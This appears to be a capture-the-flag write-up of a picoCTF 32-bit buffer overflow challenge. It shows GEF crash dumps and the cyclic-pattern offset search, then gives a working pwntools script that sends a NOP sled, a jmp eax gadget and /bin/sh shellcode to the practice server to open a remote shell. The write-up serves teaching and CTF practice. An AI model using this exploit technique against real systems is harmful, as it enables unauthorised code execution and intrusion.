




Initially, observed application behavior indicated a classic buffer overflow vulnerability. Supplying an oversized input string consistently led to a segmentation fault. Debugger analysis at this failure point confirmed EIP register corruption, signifying that our input had successfully diverted the execution flow-though without specific direction.
To gain this specific direction, a precise instrument was required: the cyclic pattern. This specially crafted string is designed with a fundamental property: every 4-byte (for 32-bit systems) or 8-byte (for 64-bit systems) sequence embedded within it is unique. This characteristic enables a direct correlation between any captured register value and its exact original position within the pattern. A pattern of sufficient length, typically 500 bytes, was generated and delivered as the payload, reliably reproducing the crash.
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────── registers ────
$eax : 0xfffffe00
$ebx : 0x0
$ecx : 0x080e8330 → 0x00000000
$edx : 0x400
$esp : 0xffffa470 → 0xffffa508 → 0xffffa568 → 0xffffa598 → 0xffffa5b8 → 0x00000000
$ebp : 0xffffa508 → 0xffffa568 → 0xffffa598 → 0xffffa5b8 → 0x00000000
$esi : 0x0
$edi : 0x080e5300 → <_IO_2_1_stdin_+0000> mov BYTE PTR [edx], ah
$eip : 0xf7ffc5b9 → <__kernel_vsyscall+0009> pop ebp
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────────── stack ────
0xffffa470│+0x0000: 0xffffa508 → 0xffffa568 → 0xffffa598 → 0xffffa5b8 → 0x00000000 ← $esp
0xffffa474│+0x0004: 0x00000400
0xffffa478│+0x0008: 0x080e8330 → 0x00000000
0xffffa47c│+0x000c: 0x0806ed0b → <read+002b> mov ebx, eax
0xffffa480│+0x0010: 0x080e5300 → <_IO_2_1_stdin_+0000> mov BYTE PTR [edx], ah
0xffffa484│+0x0014: 0x080e6140 → <_IO_file_jumps+0000> add BYTE PTR [eax], al
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────── registers ────
$eax : 0xffffa580 → "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx : 0x61616166 ("faaa"?)
$ecx : 0x080e5300 → <_IO_2_1_stdin_+0000> mov BYTE PTR [edx], ah
$edx : 0xffffa601 → 0x00000000
$esp : 0xffffa5a0 → "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
$ebp : 0x61616167 ("gaaa"?)
$esi : 0x080e5000 → <_GLOBAL_OFFSET_TABLE_+0000> add BYTE PTR [eax], al
$edi : 0x080e5000 → <_GLOBAL_OFFSET_TABLE_+0000> add BYTE PTR [eax], al
$eip : 0x61616168 ("haaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────────── stack ────
0xffffa5a0│+0x0000: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]" ← $esp
0xffffa5a4│+0x0004: "jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava[...]"
0xffffa5a8│+0x0008: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0xffffa5ac│+0x000c: "laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa[...]"
0xffffa5b0│+0x0010: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0xffffa5b4│+0x0014: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaza[...]"
0xffffa5b8│+0x0018: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0xffffa5bc│+0x001c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabca[...]"
───────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616168
───────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616168 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────
gef➤ pattern search haaa
[+] Searching for '61616168'/'68616161' with period=4
[+] Found at offset 25 (little-endian search) likely
Post-crash, the application's state was meticulously examined
within the GDB debugging environment, enhanced by GEF. Focus was
immediately placed on the EIP register. At the point of SIGSEGV,
EIP was observed to hold the hexadecimal value
0x61616168. This value, when interpreted in
little-endian ASCII, corresponds to "haaa". Crucially, attempts
to access or disassemble memory at this address resulted in
invalid memory errors, confirming that the program's execution
had been redirected to an uncontrolled, user-defined location.
The final step involved leveraging the unique property of the
cyclic pattern. Using GEF's pattern offset utility,
the captured EIP value (0x61616168 or "haaa") was
submitted for analysis. The tool's output,
[+] Searching for '61616168'/'68616161' with period=4
and
[+] Found at offset 25 (little-endian search) likely, definitively established that the EIP register is precisely
overwritten beginning at the 25th byte of the input buffer.

With the EIP offset now precisely identified, the next critical phase involves directing the program's execution to our controlled data. Our strategy hinges on leveraging a "jump to EAX" instruction, which effectively serves as a pivot point.
During our analysis, we identified a
jmp eax instruction located at the fixed memory
address 0x0805333b. This instruction is ideal for
our purposes because, as its name suggests, it unconditionally
transfers program control to the address currently held within
the EAX register.
Recall that our EAX register, as observed in the initial crash
state ($eax : 0xffff8cc0 →
"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"), already points directly into our input buffer. This means if
we overwrite EIP with the address of jmp eax (i.e.,
0x0805333b), the CPU will then execute
jmp eax. Because EAX points to a location within
our input where we can place arbitrary code (like a NOP sled
followed by shellcode), the program counter will consequently
jump to that location and begin executing our injected
instructions. This forms the direct path to achieving arbitrary
code execution.


import pwn
import sys
payload = b'\x90' * 26
payload += b'\xeb\x04'
payload += pwn.p32(0x0805333b)
payload += pwn.asm(pwn.shellcraft.i386.linux.sh())
with open("output.bin", "wb") as file:
file.write(payload)
p = pwn.remote('saturn.picoctf.net',61004 )
p.sendline(payload)
p.interactive()
A No Operation (NOP) instruction constitutes a
fundamental opcode within various instruction set architectures
(ISAs), designed to execute without altering the system's
architectural state, beyond advancing the program counter. Its
execution merely consumes a processing cycle, making it a
critical primitive for fine-grained timing adjustments or as a
benign filler in memory or instruction streams. In an x86
context, the NOP instruction is canonically represented by the
hexadecimal byte 0x90. Its operational simplicity
belies its strategic utility in various low-level programming
and system-level contexts.
From an exploit development perspective, the NOP instruction is a cornerstone in the construction of a "NOP sled" or "NOP slide," a widely adopted technique to enhance the reliability of memory corruption exploits, particularly buffer overflows. The inherent challenge in such exploits lies in precisely predicting the runtime memory address of attacker-controlled code (shellcode), especially in environments employing Address Space Layout Randomization (ASLR). A NOP sled mitigates this imprecision by creating a contiguous block of NOP instructions preceding the shellcode.
When a vulnerable program's control flow is subverted-for instance, by overwriting a return address on the stack-the NOP sled ensures that even if the calculated target address is inexact, as long as it falls anywhere within the NOP-filled region, the processor will execute these benign instructions sequentially. This "sliding" mechanism guarantees that execution will inevitably reach the entry point of the embedded shellcode. Consequently, the NOP sled significantly expands the effective target area for the redirected control flow, thereby bolstering the exploit's success rate and robustness against minor environmental or architectural variations that might otherwise cause the exploit to fail due to misaligned jumps.
The core of the exploit lies in its meticulously constructed
payload. It begins with a
NOP sled, a sequence of 26 "No Operation"
(\x90) instructions. This NOP sled acts as a
landing zone, providing a margin for error if the exact return
address isn't perfectly precise. Following the NOPs, a short
jump instruction (\xeb\x04, which translates to
jmp +6) is appended. This jump is crucial; it
bypasses the directly following 4-byte address, ensuring that
execution continues into the shellcode. The
0x0805333b address, packed using
pwn.p32(), is then added. This address is highly
likely to be the calculated return address that, when
overwritten on the vulnerable program's stack, will redirect the
program's execution flow. Finally, the payload incorporates the
actual malicious code:
pwn.asm(pwn.shellcraft.i386.linux.sh()). This
command generates 32-bit (i386) Linux shellcode that, upon
successful execution, will spawn a /bin/sh shell,
granting the attacker interactive command-line access to the
remote system.
For debugging and analysis purposes, the crafted
payload is also written to a file named
"output.bin". This allows security researchers or CTF
participants to inspect the exact bytes being sent, which can be
invaluable for understanding the exploit's structure and
behavior.
The exploit's execution then shifts to interacting with the
remote target. A connection is established using
pwn.remote('saturn.picoctf.net', 61004), targeting
a server at saturn.picoctf.net on port
61004. Once connected, the payload is
sent to the server using p.sendline(payload). This
action typically injects the carefully constructed payload into
a vulnerable buffer on the remote program, overwriting the
return address and causing the program to execute the NOP sled
and subsequently the shellcode. The final command,
p.interactive(), is critical for post-exploitation.
If the exploit is successful and the shellcode executes as
intended, p.interactive() takes over the current
terminal, allowing the user to directly interact with the newly
spawned remote shell on saturn.picoctf.net,
effectively giving them control over the compromised system.
